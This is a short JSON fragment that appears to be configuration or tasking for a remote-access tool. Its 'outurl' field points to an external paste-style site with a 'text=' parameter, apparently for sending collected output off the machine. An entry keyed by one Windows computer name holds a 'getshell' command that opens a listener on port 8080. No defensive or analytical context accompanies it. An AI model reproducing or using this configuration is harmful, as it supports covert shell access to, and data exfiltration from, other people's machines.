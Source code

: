 {
    "all": {
        "outurl": "http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="
    },
    "DESKTOP-GUGF4C2": {
        "getshell": "l t 127.0.0.1 8080~open"
    }
}
